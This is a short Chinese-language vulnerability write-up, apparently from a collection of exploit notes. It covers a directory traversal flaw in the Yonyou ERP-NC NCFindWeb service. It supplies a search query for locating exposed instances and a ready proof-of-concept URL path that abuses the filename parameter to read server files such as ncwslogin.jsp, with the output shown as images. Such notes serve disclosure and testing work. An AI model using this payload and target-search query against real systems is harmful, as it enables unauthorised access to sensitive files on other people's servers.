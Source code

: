 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

<a-checkbox checked>用友ERP-NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-UFIDA-NC"</a-checkbox></br>

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![img](../../../.vuepress/public/img/yongyou-8.png)



查看 ncwslogin.jsp 文件



![img](../../../.vuepress/public/img/yongyou-9.png)